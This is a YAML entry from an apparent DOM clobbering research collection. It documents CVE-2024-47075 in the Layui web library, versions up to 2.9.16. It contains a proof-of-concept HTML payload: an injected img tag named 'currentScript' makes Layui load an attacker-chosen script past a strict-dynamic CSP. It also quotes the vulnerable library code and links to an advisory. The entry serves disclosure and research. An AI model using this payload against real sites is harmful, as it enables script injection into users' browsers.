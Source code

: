 ```yaml
---
description: 一套遵循原生态开发模式的 Web UI 组件库，采用自身轻量级模块化规范，易上手，可以更简单快速地构建网页界面。
github: layui/layui
gadgets:
  ≤v2.9.16:
    cve: CVE-2024-47075
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Layui](https://github.com/layui/layui) library was using the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="/assets/libs/layui/2.9.16/layui.js"></script>
          <script nonce="secret">
            // Usage
            layui.use(function () {
              var layer = layui.layer;

              // Welcome
              layer.msg("Hello World", { icon: 6 });
            });
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/layui/layui/blob/79bd6f502309c0c3e763b21a6cf293080b8a6cee/src/layui.js#L27">https://github.com/layui/layui/blob/79bd6f502309c0c3e763b21a6cf293080b8a6cee/src/layui.js#L27</a>

      ```javascript
      var doc = win.document;
      var config = {
        modules: {}, // 模块物理路径
        status: {}, // 模块加载状态
        timeout: 10, // 符合规范的模块请求最长等待秒数
        event: {} // 模块自定义事件
      };

      var Layui = function(){
        this.v = '2.9.16'; // Layui 版本号
      };

      // 识别预先可能定义的指定全局对象
      var GLOBAL = win.LAYUI_GLOBAL || {};

      // 获取 layui 所在目录
      var getPath = function(){
        var jsPath = doc.currentScript ? doc.currentScript.src : function(){
          var js = doc.scripts;
          var last = js.length - 1;
          var src;
          for(var i = last; i > 0; i--){
            if(js[i].readyState === 'interactive'){
              src = js[i].src;
              break;
            }
          }
          return src || js[last].src;
        }();

        return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
      }();
      ```
    links:
      - https://github.com/advisories/GHSA-j827-6rgf-9629
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/layui.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

